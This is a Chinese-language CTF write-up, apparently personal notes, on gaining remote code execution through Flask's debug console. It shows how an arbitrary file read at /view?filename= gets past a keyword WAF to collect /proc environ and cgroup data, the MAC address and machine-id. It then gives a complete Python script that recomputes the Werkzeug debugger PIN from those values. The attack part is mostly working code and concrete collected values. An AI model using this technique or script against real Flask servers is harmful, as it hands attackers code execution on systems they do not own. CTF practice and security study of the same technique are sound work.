 tags:: [[CTFWEB/Flask/Debug模式RCE]]

- # 思路
	- 利用文件读取漏洞，计算flask debug pin实现RCE
	- 参考[[CTFWEB/Flask/Debug模式RCE]]
- # WAF下的任意文件读取
  id:: 63e792d2-442c-473d-ada6-0a35a1cb5b57
	- `/view?filename=xxx`可以读取任意文件，但是waf禁止`flag`,`self`和`cgroup`这三个关键字
- # 数据收集
	- 不带参数访问`/view`，进入错误界面，看到模块地址为`/usr/local/lib/python3.8/site-packages/flask/app.py`
	- 利用 ((63e792d2-442c-473d-ada6-0a35a1cb5b57))
		- 爆破`/proc/{i}/environ`可知可以读取pid为14,17,19的环境
		- 读取`/proc/14/environ`可知用户名为`app`
		- 读取`/proc/14/cpuset`可知某个控制组为`/docker/dcddc01b2cc5deb5f183ef8a3af12770f1191c04ea53542256866fa5c5569ec3`
		- 读取`/sys/class/net/eth0/address`可知mac地址为`02:42:ac:02:05:32`
	- 最终收集到的数据如下，满足计算pin的条件
		- ```python
		  probably_public_bits = [
		      'app',
		      'flask.app',
		      'Flask',
		      '/usr/local/lib/python3.8/site-packages/flask/app.py'
		  ]
		  
		  private_bits = [
		      '2485376910642',
		      '7265fe765262551a676151a24c02b7b6dcddc01b2cc5deb5f183ef8a3af12770f1191c04ea53542256866fa5c5569ec3'# /etc/machine-id的内容+/proc/self/cgroup的结尾
		  ]
		  ```
- # 生成PIN
	- 脚本如下
		- ```python
		  import hashlib
		  from itertools import chain
		  
		  rv, num = None, None
		  
		  probably_public_bits = [
		      'app',
		      'flask.app',
		      'Flask',
		      '/usr/local/lib/python3.8/site-packages/flask/app.py'
		  ]
		  
		  private_bits = [
		      '2485376910642',# str(uuid.getnode()),  /sys/class/net/ens33/address
		      '7265fe765262551a676151a24c02b7b6dcddc01b2cc5deb5f183ef8a3af12770f1191c04ea53542256866fa5c5569ec3'# /etc/machine-id的内容+/proc/self/cgroup的结尾
		  ]
		  
		  h = hashlib.sha1()
		  for bit in chain(probably_public_bits, private_bits):
		      if not bit:
		          continue
		      if isinstance(bit, str):
		          bit = bit.encode("utf-8")
		      h.update(bit)
		  h.update(b"cookiesalt")
		  
		  cookie_name = f"__wzd{h.hexdigest()[:20]}"
		  
		  # If we need to generate a pin we salt it a bit more so that we don't
		  # end up with the same value and generate out 9 digits
		  if num is None:
		      h.update(b"pinsalt")
		      num = f"{int(h.hexdigest(), 16):09d}"[:9]
		  
		  # Format the pincode in groups of digits for easier remembering if
		  # we don't have a result yet.
		  if rv is None:
		      for group_size in 5, 4, 3:
		          if len(num) % group_size == 0:
		              rv = "-".join(
		                  num[x : x + group_size].rjust(group_size, "0")
		                  for x in range(0, len(num), group_size)
		              )
		              break
		      else:
		          rv = num
		  
		  print(rv)
		  ```
	- 使用生成的PIN控制flask后台即可
-